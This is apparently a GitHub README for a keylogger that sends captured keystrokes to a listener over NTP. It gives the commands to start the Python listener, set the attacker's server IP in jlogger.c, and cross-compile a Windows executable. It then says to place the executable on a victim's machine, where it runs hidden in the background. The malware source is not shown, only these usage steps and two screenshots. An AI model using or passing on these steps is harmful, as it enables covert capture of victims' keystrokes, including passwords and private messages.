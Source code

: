 # NTP Keylogger   
## Listener
```
sudo python3 ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress in jlogger.c
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine and just double click on it (Executable will work on background, so you cannot see anything in the screen)

This is how exe works:


![image](https://user-images.githubusercontent.com/45479002/209933030-92b10432-1884-40a9-9e4d-70584b4d3d91.png)

![jlogger](https://user-images.githubusercontent.com/45479002/209933048-ab41d906-ce19-4ecc-b0ce-1a270578874b.png)
